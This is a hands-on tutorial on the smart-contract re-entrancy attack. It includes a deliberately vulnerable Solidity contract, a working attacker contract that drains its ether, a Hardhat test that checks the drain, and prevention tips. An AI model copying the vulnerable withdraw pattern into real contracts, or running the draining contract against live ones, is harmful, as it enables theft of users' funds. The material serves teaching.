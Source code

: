 # Re-Entrancy

Who wants to do some hacking!!!

---

## What is Re-Entrancy?

- Contract A calls a function in contract B
- Then contract B callsback contract A while contract A is still processing

This can lead to some serious vulnerabilities in Smart contracts.

## Real World Examples?

[The DAO Attack](https://coinmarketcap.com/alexandria/article/a-history-of-the-dao-hack)

## Requirements

- There will be two contracts: GoodContract and BadContract
- BadContract should be able drain all the Eth out of the GoodContract

## Build

Lets build an example where you can experience how the Re-Entrancy attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

- Start by creating a new file inside the contracts directory called GoodContract.sol

```go
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GoodContract {

    mapping(address => uint) public balances;

    /**
        addBalance is used to add ether to the user's balance
     */
    function addBalance() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
        withdraw is used to remove the user's balance of ether
     */
    function withdraw() public {
        require(balances[msg.sender] > 0);
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send ether");
        // This code becomes unreachable because the contract's balance is drained
        // before user's balance could have been set to 0
        balances[msg.sender] = 0;
    }
}
```

- GoodContract has two functions

  - addBalance() which adds ether balance for an address
  - withdraw() where users can withdraw all of their balance at once

- Now lets create another file inside the contracts directory known as `BadContract.sol`

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.10;

    import "./GoodContract.sol";

    contract BadContract {
        GoodContract public goodContract;
        constructor(address _goodContractAddress) {
            goodContract = GoodContract(_goodContractAddress);
        }
        // Function to receive Ether. msg.data must be empty
        receive() external payable {
            if(address(goodContract).balance > 0) {
                goodContract.withdraw();
            }
        }
        /**
            attack would start an attack to withdraw all the funds from the
            goodContract
        */
        function attack() public payable {
            goodContract.addBalance{value: msg.value}();
            goodContract.withdraw();
        }
    }
```

- BadContract has two functions

  - contructor which takes in the GoodContract's address and intilializes its own instance of GoodContract
  - recieve() which gets called when contract recieves ethers and msg.data is empty
  - attack() is the function which the user will use to drain all the Eth out of the GoodContract, how it will do so is as follows:
    - Attack will call addBalance, making sure that BadContract's address has some balance in the GoodContract
    - Now it will try calling the `GoodContract` withdraw function which will first check that the BadContract has some balance and then it will send `Eth` equal to BadContract's address balance to the BadContract.
    - This will trigger the recieve function in the BadContract which will again call the withdraw function.
    - Now in the withdraw function because `balances[msg.sender] = 0;` has not been executed yet, the contract still believes that the BadContract's address has balance.
    - So it again sends the Eth equal to the amount of BadContract's balance to BadContract
    - This keeps happening till all the Eth in GoodContract is drained

- Replace all the code in your `hardhat.config.js` with the following code:

  ```javascript
  require("@nomiclabs/hardhat-waffle");

  // This is a sample Hardhat task. To learn how to create your own go to
  // https://hardhat.org/guides/create-task.html
  task("accounts", "Prints the list of accounts", async (taskArgs, hre) => {
    const accounts = await hre.ethers.getSigners();

    for (const account of accounts) {
      console.log(account.address);
    }
  });

  // You need to export an object to set up your config
  // Go to https://hardhat.org/config/ to learn more

  /**
   * @type import('hardhat/config').HardhatUserConfig
   */
  module.exports = {
    solidity: "0.8.10",
  };
  ```

- Now we would write a test to make sure that our BadContract is actually draining all the funds from the GoodContract

- Read [Hardhat Docs for testing](https://hardhat.org/tutorial/testing-contracts.html) before procedding

- Now create a file under the `test` folder named `attack.js`

- Add the following content to `attack.js`

  ```js
  const { expect } = require("chai");
  const { BigNumber } = require("ethers");
  const { ethers, waffle } = require("hardhat");

  describe("Attack", function () {
    it("Should empty the balance of the good contract", async function () {
      // Deploy the good contract
      const goodContract = await ethers.getContractFactory("GoodContract");
      const _goodContract = await goodContract.deploy();
      await _goodContract.deployed();
      console.log("Good Contract's Address", _goodContract.address);
      //Deploy the bad contract
      const badContract = await ethers.getContractFactory("BadContract");
      const _badContract = await badContract.deploy(_goodContract.address);
      await _badContract.deployed();
      console.log("Bad Contract's Address", _badContract.address);
      // Get two addresses
      const [_, addr1, addr2] = await ethers.getSigners();

      // User1 deposits 10 ether into the contract
      let tx = await _goodContract.connect(addr1).addBalance({
        value: ethers.utils.parseEther("10.0"),
      });

      await tx.wait();

      const provider = waffle.provider;

      // Check that at this point the GoodContract's balance is not zero
      let balanceETH = await provider.getBalance(_goodContract.address);
      expect(balanceETH).to.not.equal(BigNumber.from("0"));

      // User calls attack function
      tx = await _badContract.connect(addr2).attack({
        value: ethers.utils.parseEther("1.0"),
      });
      await tx.wait();

      balanceETH = await provider.getBalance(_goodContract.address);
      // Balance of the GoodContract's address is zero know
      expect(balanceETH).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now to finally execute the test, on your terminal type:

  ```
  npx hardhat test
  ```

- If all your tests are passing you have completed the module. Use the GoodContract's Address that was printed on your terminal to verify this level on the website

## Prevention

- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

```go
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
```
